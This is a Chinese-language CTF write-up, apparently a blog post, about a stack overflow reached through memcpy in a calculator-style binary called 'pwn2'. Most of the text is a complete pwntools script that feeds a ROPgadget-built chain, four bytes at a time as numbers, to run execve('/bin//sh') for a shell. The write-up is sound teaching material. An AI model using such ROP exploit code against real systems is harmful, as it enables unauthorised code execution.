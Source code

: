 这题刚开始看到malloc以为是堆溢出，但问题其实还是在底下memcpy那个地方，仍然是栈溢出  
然后有点懵逼，一方面输入是数字，不是字符串，就需要一些转化。  
酱紫就需要多次的输入，要把pattern create出来的字符串切得碎碎的放进去（啊不对是输入别的标志算偏移  
另一方面感觉题目的逻辑有点问题= =数字都还没输入完，输个5就能memcpy并退出了，有点蠢  
  
然后调试了下终于能覆盖eip了，输入15次数字，第16次输5保存的话刚好能正常退出，再多一次会覆盖地址  
却对跳到哪里有点迷惘。。scanf是有的，但没有system函数。。  
  
然后据说这题是静态编译过的~所以这时候就可以祭出ROPgadgets了，命令是  
ROPgadget --ropchain --badbytes 0A --binary pwn2  
注意其中的badbytes。。  
  
另外还get了一个新知识，就是free(0)是不会出错的，所以需要给它赋参数的时候0就可以~  
  
```python
from pwn import *
p=process('./pwn2')
p.recv()
r=raw_input()
p.sendline('160')#how many times of calculation

def input4bytes(number):
    p.recv()
    p.sendline('1')#choose an action
    p.recv()
    p.sendline('0')
    p.recv()
    p.sendline(str(number))

for i in xrange(16):
    input4bytes(0)



input4bytes(0x0806ed30) # pop edx ; pop ecx ; pop ebx ; ret
input4bytes(0x080ea060) # @ .data
input4bytes(0x41414141) # padding
input4bytes(0x41414141) # padding
input4bytes(0x080bb406) # pop eax ; ret
input4bytes(0x6e69622f)
input4bytes(0x08097416) # mov dword ptr [edx], eax ; pop ebx ; ret
input4bytes(0x41414141) # padding
input4bytes(0x0806ed30) # pop edx ; pop ecx ; pop ebx ; ret
input4bytes(0x080ea064) # @ .data + 4
input4bytes(0x41414141) # padding
input4bytes(0x41414141) # padding
input4bytes(0x080bb406) # pop eax ; ret
input4bytes(0x68732f2f)
input4bytes(0x08097416) # mov dword ptr [edx], eax ; pop ebx ; ret
input4bytes(0x41414141) # padding
input4bytes(0x0806ed30) # pop edx ; pop ecx ; pop ebx ; ret
input4bytes(0x080ea068) # @ .data + 8
input4bytes(0x41414141) # padding
input4bytes(0x41414141) # padding
input4bytes(0x08054730) # xor eax, eax ; ret
input4bytes(0x08097416) # mov dword ptr [edx], eax ; pop ebx ; ret
input4bytes(0x41414141) # padding
input4bytes(0x080481c9) # pop ebx ; ret
input4bytes(0x080ea060) # @ .data
input4bytes(0x0806ed31) # pop ecx ; pop ebx ; ret
input4bytes(0x080ea068) # @ .data + 8
input4bytes(0x080ea060) # padding without overwrite ebx
input4bytes(0x0806ed30) # pop edx ; pop ecx ; pop ebx ; ret
input4bytes(0x080ea068) # @ .data + 8
input4bytes(0x080ea068) # padding without overwrite ecx
input4bytes(0x080ea060) # padding without overwrite ebx
input4bytes(0x08054730) # xor eax, eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x08049781) # int 0x80

p.recv()
p.sendline('5')
p.interactive()
```
